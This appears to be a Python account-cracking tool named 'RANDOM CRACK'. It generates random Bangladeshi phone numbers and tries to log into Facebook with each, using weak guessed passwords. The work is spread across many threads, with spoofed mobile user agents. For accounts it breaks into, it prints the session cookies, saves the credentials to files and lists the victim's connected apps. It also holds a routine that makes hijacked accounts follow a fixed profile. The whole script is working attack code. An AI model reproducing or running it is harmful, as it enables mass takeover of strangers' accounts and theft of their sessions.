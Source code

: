 
#-------------------------------------------------------------
#Don't Forget To Follow My Github &
#Sent Star This Repositories 🙂
#-------------------------------------------------------------
#10K-Gift-Test-Coding
#!/usr/bin/python3
#-*-coding:utf-8-*-
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
#-----[Global Functions]-----#
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
#-----[Colours]-----#
RED = '\033[1;91m' #
WHITE = '\033[1;97m' #
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m' #
BLUE = '\033[1;34m' #
ORANGE = '\033[1;35m' #
P = '\x1b[1;97m' # 
M = '\x1b[1;91m' # 
H = '\x1b[1;92m' # 
K = '\x1b[1;92m' # 
B = '\x1b[1;94m' # 
U = '\x1b[1;95m' # 
O = '\x1b[1;96m' #
N = '\x1b[0m' #
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
mtd,cp_cpx,cokix=[],[],[]
ugen2=[]
ugen=[]
#-----[App Checker]-----#
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSORRY THERE IS NO ACTIVE  APK%s  '%(N,M,N,M,N))
    else:
        print(f'\r[😍] %s \x1b[1;95m YOUR ACTIVE APPS   :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSORRY THERE IS NO EXPIRED APK%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[🥵] %s \x1b[1;95m YOUR EXPIRED APPS    :{WHITE}'%(M))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print('')

def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100015315258519', {
            'cookie': coki }, **('cookies',)).text, 'html.parser')
        get = r.find('a', 'Ikuti', **('string',)).get('href')
        session.get('https://mbasic.facebook.com' + str(get), {
            'cookie': coki }, **('cookies',)).text
           
#-----[UserAgent]-----#
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
         
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.001)
#-----[Logo]-----#
logo = ("""
\033[1;91m    
𝐎𝐕𝐈
 ┌─────────────────────────────────────────┐
 │ [✓] AUTHOR   : Ovi         │
 │ [✓] TOOL     : RANDOM CRACK             │
 │ [✓] STATUS   : FREE                     │
 │ [✓] WhatsApp   : +8801816105786         │
 │ [✓] FACEBOOK : Ovi Chowdhury               │
 └─────────────────────────────────────────┘""")
try:
   print('\n\n\033[1;33mLOADING ASSET FILES ... \033[0;97m')
   v = 5.2
   update = ('5.2')
   update = ('5.2')
   if str(v) in update:
       os.system('clear')
   else:pass
except:print('\n\033[1;31mNO INTERNET CONNECTION ... \033[0;97m')

def linex():
        print('\033[1;37m ──────────────────────────────────────────')
 
def clear():
    os.system('clear')
    print(logo)
    
#-----[Loop Menu]-----#  
loop = 0
oks = []
cps = []

#-----[Main-Menu]-----#
def mumit_menu():
    os.system('clear');print(logo)
    print('\033[1;92m [1] RANDOM CRACK')
    print('\033[1;92m [0] EXIT TOOL')
    linex()
    mumit=input(' \033[1;32m[?] SELECT MENU: ')
    if mumit in['1','01']:innocent()
    elif mumit in['0','00']:exit()
    else:exit()
    
def innocent():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print('\033[1;32m [√] BD CODE : 017/019/016/018/013)
    linex()
    code = input('\033[1;32m [?] CHOOSE : ')
    os.system('clear')
    print(logo)
    print('\033[1;32m [√] EXAMPLE : 3000/5000/10000/50000')
    linex()
    limit = int(input('\033[1;32m [?] CHOOSE : '))
    linex()
    xd_cp=input(f'\033[1;32m [?] You Want To Show Cp Account?[\033[1;32mY\033[1;34m/\033[1;31mN\033[1;32m]: ')
    if xd_cp in ['y','Y','yes','Yes','1']:cp_cpx.append('y')
    else:cp_cpx.append('n')
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(8))
        user.append(nmp)
    with ThreadPool(max_workers=50) as ahare:
        clear()
        tl = str(len(user))
        print('\033[1;32m [+] Choice Code: '+code)
        print('\033[1;92m [+] Crack Process Has Started')
        print('\033[1;92m [!] Use Flight Mode For Speed Up')
        linex()
        for fuck in user:
            pwx = [fuck,'bangladesh']
            uid = code+fuck
            ahare.submit(mumitx,uid,pwx,tl)
    print('CRACK PROCESS HAS BEEN COMPLETED ')
    print('Ok Ids Saved in /Ovi-OK.txt')
    print('Cp Ids Saved in /Ovi-CP.txt')
    linex()
    
def mumitx(uid,pwx,tl):
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority': 'm.facebook.com',
    'method':'POST',
    'path':'/login/device-based/login/async/?refsrc=deprecated&lwv=100',
    'scheme':'https',
    'accept': '*/*',
    'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'content-type': 'application/x-www-form-urlencoded',
    'origin': 'https://m.facebook.com',
    'referer': 'https://m.facebook.com/',
    'sec-ch-ua': '"Chromium";v="111", "Not(A:Brand";v="8"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"Linux"',
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'same-origin',
    'x-asbd-id': '198387',
    'x-fb-lsd': 'AVoPmsopEAk',
    'user-agent': pro}
            lo = session.post('https://m.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[Ovi-OK] ' +uid+ ' | ' +ps+ ' \033[0;97m')
                print('\033[1;32m[COOKIE] = \033[1;37m'+coki+ '')
                cek_apk(session,coki)
                open('/sdcard/Ovi-OK.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                if 'y' in cp_cpx: 
                 print('\r\r\033[1;30m[Ovi-CP]  ' +uid+ ' | ' +ps+ ' \033[0;97m')
                open('/sdcard/Ovi-CP.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write('\r\r%s\033[0;97m[\033[0;96mINNOCENT\033[0;97m]..[\033[0;94m%s/%s\033[0;97m]..[\033[0;92mOK\033[0;97m/\033[0;91mCP\033[0;97m]..[\033[0;92m%s\033[0;97m/\033[0;91m%s\033[0;97m] '%(H,loop,tl,len(oks),len(cps))),
        sys.stdout.flush()
    except:
        pass

#-----[Run Menu]-----#
mumit_menu()
